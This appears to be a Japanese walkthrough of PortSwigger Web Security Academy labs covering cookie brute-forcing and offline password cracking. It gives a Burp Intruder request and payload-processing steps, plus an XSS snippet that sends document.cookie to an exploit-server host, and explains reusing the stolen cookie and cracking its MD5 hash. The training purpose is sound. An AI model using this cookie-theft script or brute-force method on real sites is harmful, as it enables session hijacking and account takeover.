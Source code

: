 wienerのパスワードpeterをmd5関数にかけると同一値が取得でき、stay-logged-in Cookieは `Base64(username:password)` の形式であることがわかりました。

あとはやるだけです。

```
GET /my-account?id=carlos HTTP/2
Host: 0ab8003c037db43c81b858ae00370080.web-security-academy.net
Cookie: stay-logged-in=§d2llbmVyOjUxZGMzMGRkYzQ3M2Q0M2E2MDExZTllYmJhNmNhNzcw§;
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Sec-Ch-Ua: "Chromium";v="117", "Not;A=Brand";v="8"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Linux"
Referer: https://0ab8003c037db43c81b858ae00370080.web-security-academy.net/login
Accept-Encoding: gzip, deflate, br
Accept-Language: ja,en-US;q=0.9,en;q=0.8
```

```
Intruder > Payloads Tab > Payload processing
Hash: MD5
Add Prefix: calos:
Base64-encode
```

## ****Offline password cracking****

---

my credentials > wiener:peter

victims > carlos

```jsx
<script>
fetch(`https://exploit-0a39002f03b7477e808c7b0e01c100da.exploit-server.net/log?cookie=${document.cookie}`);
</script>
```

上記を埋め込みXSSを発生させ、`stay-logged-in` Cookieを取得し、`GET /my-account?id=carlos` にし、取得したstay-logged-inをCookieに入れsessionを消しcarlosとしてloginを行います。

accountを消せば終わりなのですが、消すにはpasswordが必要なのでここはbrute-forceで乗り切ります。

⇒ できませんでし

stay-logged-inは、`carlos:26323c16d5f4dabff3bb136f2460a943`をbase64 encodeしたもので、hashはpassword listではなく検索する必要があるそうです。
